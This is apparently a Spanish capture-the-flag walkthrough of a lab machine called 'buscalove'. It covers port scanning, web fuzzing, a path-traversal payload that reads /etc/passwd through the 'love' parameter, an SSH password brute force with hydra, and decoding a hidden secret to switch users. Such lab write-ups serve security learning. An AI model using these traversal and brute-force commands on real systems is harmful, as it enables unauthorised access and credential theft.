 ### Máquina buscalove

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.18.0.2

22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64


## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.18.0.2

![alt text](1.png)


## Fuzzing web

gobuster dir -t 200 -u http://172.18.0.2:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

encontramos esta ruta:

http://172.18.0.2/wordpress/

inspeccionamos:

<!-- El desarollo de esta web esta en fase verde muy verde te dejo aqui la ventana abierta con mucho love para los curiosos que gustan de leer -->

lo que nos hace pensar que puede hacer un usuario love, hice un ataque con hydra y no funciono entonces lo que se me ocurrio fue hacer fuzzing web a 

http://172.18.0.2/wordpress/ y me arrojo el index.php, 

http://172.18.0.2/wordpress/index.php entonces me hizo pensar que se trata de un LFI..

usando wfuzz:

wfuzz -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../etc/passwd --hc 404 --hl 40

![alt text](3.png)


encontramos el parametro love, hacemos en la url http://172.18.0.2/wordpress/index.php?love=../../../../../../../etc/passwd

![alt text](2.png)

encontramos los usuarios:

rosa y pedro

## Intrusion

utilizamos hydra y nos funciono para el usuario rosa

hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 16 -w 1 

contraseña: lovebug

ingresamos por ssh, y luego hacemos sudo -l

![alt text](image.png)


podemos usar /usr/bin/ls y /usr/bin/cat para ver dentro de pedro y de root

en root encontramos un archivo secret.txt que contiene lo siguiente:

![alt text](image-1.png)

![alt text](image-2.png)

4E 5A 58 57 43 59 33 46 4F 4A 32 47 43 34 54 42 4F 4E 58 58 47 32 49 4B

desencriptamos con cybercheff:

![alt text](image-3.png)

Cambiamos al usuario pedro, escribimos la contraseña desencriptada

![alt text](image-4.png)


## Escalar privilegios

![alt text](image-5.png)
